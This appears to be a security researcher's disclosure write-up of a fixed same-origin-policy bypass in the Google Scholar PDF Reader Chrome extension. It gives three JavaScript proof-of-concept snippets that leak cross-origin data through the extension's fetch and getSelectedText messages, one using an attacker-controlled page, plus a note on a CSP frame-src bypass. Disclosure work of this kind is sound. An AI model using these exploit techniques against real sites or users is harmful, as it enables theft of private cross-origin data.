 ```yaml
---
title: SOP bypass in Google Scholar PDF Reader (Fixed)
---
```

Google Scholar PDF Reader is apparently not an official Google app so was not awarded :(  
Chrome Webstore: <https://chromewebstore.google.com/detail/google-scholar-pdf-reader/dahenjhkoodjbpjheillcadbppiidmhp>  

# Leak 1 (With compromised renderer)

```js
// In the context of a content script on any website.
// Leaked data must be JSON.

let x = chrome.runtime.connect();
x.postMessage({type: 'fetch', method: 'GET', url: 'https://www.google.com/something.json', id: 1});
x.onMessage.addListener(console.log);
```

# Leak 2 (Without compromised renderer)

```js
// Embed victim PDF from attacker page.
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);

// Navigate nested, nested frame to attacker controlled page with null origin.
// I think this also creates a race condition version
f.contentWindow[0][0].location = 'https://terjanq.me/xss.php?h[Content-Security-Policy]=sandbox%20allow-scripts';

// On that attacker page, Make sure the target page to leak is the same-origin as the pdf https://services.google.com in this case.
onmessage = async (e) => {
 let reader = e.data.body.pipeThrough(new TextDecoderStream()).getReader();
 let result = await reader.read();
 console.log(result.value);
}
parent.parent.postMessage({type: 'fetch', url: 'https://services.google.com/example'}, '*');
```

# Leak 3 (Without compromised renderer)

```js
let f=document.createElement('iframe');
f.width=1000;
f.height=1000;
f.src='https://services.google.com/fh/files/misc/bvp_order_form_google_06162020.pdf';
document.body.appendChild(f);
```
Selected text gets leaked cross-origin.

```js
onmessage=console.log;
f.contentWindow[0].postMessage({type: 'getSelectedText'}, '*');
```

# Attack scenario
An attacker controlled website can bypass SOP if one of the following is met:

- Attacker wants JSON data and has a compromised renderer bug
- Attacker wants data from a origin that contains a PDF which allows embedding

# frame-src 'self' bypass
Because of an `about:blank` edge case it's possible to navigate a nested, nested 3rd party iframe to it and bypass the child's CSP.  
This has resulted in leaking data due to the victim sending sensitive information to a iframe using the `*` scope that can be hijacked via good navigation timings even with the CSP.  
A GitHub issue was opened about this <https://github.com/w3c/webappsec-csp/issues/662>
